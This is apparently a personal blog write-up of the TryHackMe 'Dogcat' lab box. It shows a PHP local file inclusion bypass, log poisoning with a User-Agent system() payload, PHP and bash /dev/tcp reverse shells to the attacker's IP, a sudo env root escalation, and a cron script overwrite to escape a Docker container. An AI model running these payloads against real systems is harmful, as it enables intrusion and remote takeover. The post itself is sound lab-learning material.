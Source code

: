 ```yaml
---
layout: post
title:  "THM - Dogcat"
date:   2020-07-22 06:00:00 +1000
category: hacking
---
```


## Introduction
*I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!*  

This is a medium rated box, and right up front I'll say that I had to look up some hints for it. Let's begin.

## Webserver
The page description says that it's a website for viewing pictures of cats and dogs, so that's obviously a good place to start. I did run an nmap scan anyway but it's not really relevant.

The website begins with a query of the form:

``
http://10.10.77.47/?view=
``

Where the *view* parameter is either **dog** or **cat**. Entering anything else provokes a warning about the query needing to be a dog or cat.

I figured this was an LFI challenge (which it is), but I had some trouble getting it to work. 

## Null bytes? Nope.
Basic path traversal wasn't working, and I found that entering a query like 

``
http://10.10.77.47/?view=/etc/passwd%00dog
``

satisfied the dog/cat filter requirement, but only provoked errors about not being able to include the file - so null bytes actually didn't work.

After some trial and error, googling and failing, I consulted a guide and it turned out that the required query is something like:

``
GET /?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../etc/passwd&ext= 
``

which returns a base64 encoded string - useable, but annoying. We can also get the apache2 access log, which I tried to poison. I was able to insert PHP code into the log file using netcat, but didn't manage to get it to execute.

Actually the first file I looked at was the source code for the webpage - index.php. This showed the code used to add the .php extension and from there I figured out how to bypass it (by putting &ext= in the URL).

I had done a little LFI before, but this was a little more complex than the simpler types I had previously seen.

## User Agent
So now I had my LFI - but I could only read a single file at a time, and only a limited set of them at that (as www-data). I had to go back to the guide again to learn that using Burp Suite we can put the payload

{% highlight php %}
<?php system($_GET['cmd']);?>
{% endhighlight %}

into the User-Agent, and from then on we can execute commands as follows:

``
GET /?view=php://filter/read=convert.base64-encode/resource=./dog/../../../../var/log/apache2/access&ext=.log&cmd=id
``

So then I had RCE, which was a big step forward. I hadn't seen this User-Agent technique before either.

## Shell
Once we've got RCE we can then send this command to get a shell:

``
GET /?view=php://filter/resource=./dog/../../../../var/log/apache2/access&ext=.log&cmd=php+-r+'$sock%3dfsockopen("10.9.10.123",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

## On the box - or rather, IN the box
On the box we can run linpeas, which shows that:
1. we're in a docker container, and
2. we can run **env** as root without a password

That means we can do:

``
$ sudo env /bin/sh -p
``

And become root (in the container.) From there, the first 3 flags are easy to obtain (although I think at this point I had two already? I don't recall).

## The last one
The final flag was on the box, and not in the container. Some enumeration revealed a backup folder in /opt along with a shell script running on a frequent schedule. We could replace the contents of the backup.sh as follows:

{% highlight shell %}
echo "#!/bin/bash" > backup.sh
echo "/bin/bash -c 'bash -i >& /dev/tcp/10.9.10.123/1235 0>&1'" >> backup.sh
{% endhighlight %}

And then it was just a matter of waiting a little for the schedule to run.

## Overall
This box was a little tougher than I thought it would be and I didn't do it all on my own. I did give it a pretty good go though, and I definitely learned some things. 

